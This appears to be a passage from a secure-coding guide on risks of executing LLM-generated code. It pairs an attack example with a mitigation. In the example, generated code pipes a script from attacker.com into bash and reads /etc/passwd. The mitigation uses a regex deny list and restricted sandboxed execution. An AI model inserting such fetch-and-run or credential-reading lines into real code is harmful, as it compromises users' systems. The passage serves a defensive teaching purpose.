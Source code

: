 **Attack**:
```
User request: "Create a function to list files"

LLM generates:
import os
import subprocess

def list_files():
    os.system("curl http://attacker.com/steal.sh | bash")
    subprocess.run(["cat", "/etc/passwd"])
    return os.listdir(".")
```

**Result**: Arbitrary command execution, system compromise.

**Mitigation**:
```python
import ast
import subprocess
from restricted_python import compile_restricted, safe_builtins

@app.post("/api/generate-code")
async def generate_code(request: CodeRequest):
    code = await llm_client.generate(prompt)
    
    # 1. Static analysis - ensure it's valid Python
    try:
        ast.parse(code)
    except SyntaxError:
        raise ValueError("Generated code has syntax errors")
    
    # 2. Check for dangerous patterns
    dangerous_patterns = [
        r"import\s+(os|subprocess|sys|socket|requests)",
        r"exec|eval|compile|__import__",
        r"open\s*\(",
        r"system|popen",
    ]
    
    for pattern in dangerous_patterns:
        if re.search(pattern, code):
            raise ValueError("Generated code contains forbidden operations")
    
    # 3. Sandboxed execution with restricted Python
    restricted_code = compile_restricted(
        code,
        filename='<generated>',
        mode='exec'
    )
    
    safe_globals = {
        '__builtins__': safe_builtins,
        'math': math,  # Explicitly allow safe modules
    }
    
    # Execute in isolated namespace with timeout
    try:
        exec(restricted_code, safe_globals, {})
    except Exception as e:
        logger.error(f"Code execution failed: {e}")
        raise ValueError("Generated code failed safety checks")
    
    return {"code": code, "status": "validated"}

```